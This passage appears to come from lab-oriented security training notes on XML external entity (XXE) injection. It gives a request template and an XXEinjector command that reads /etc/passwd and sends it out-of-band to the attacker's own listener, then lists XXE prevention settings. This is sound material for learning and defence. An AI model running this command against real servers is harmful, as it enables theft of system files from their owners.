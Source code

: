 ## Automated OOB Exfiltration

Create a request file like this

```
POST /blind/submitDetails.php HTTP/1.1  
Host: 10.129.100.108  
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0  
Accept: */*  
Accept-Language: en-US,en;q=0.5  
Accept-Encoding: gzip, deflate, br  
Content-Type: text/plain;charset=UTF-8  
Content-Length: 255  
Origin: http://10.129.100.108  
Connection: keep-alive  
Referer: http://10.129.100.108/  
  
<?xml version="1.0" encoding="UTF-8"?>  
XXEINJECT
```


Then run the injector script
```shell-session
ruby XXEinjector.rb --host=[tun0 IP] --httpport=8000 --file=/tmp/xxe.req --path=/etc/passwd --oob=http --phpfilter
```

# XXE Prevention

Other than using the latest XML libraries, certain XML configurations for web applications can help reduce the possibility of XXE exploitation. These include:

- Disable referencing custom `Document Type Definitions (DTDs)`
- Disable referencing `External XML Entities`
- Disable `Parameter Entity` processing
- Disable support for `XInclude`
- Prevent `Entity Reference Loops`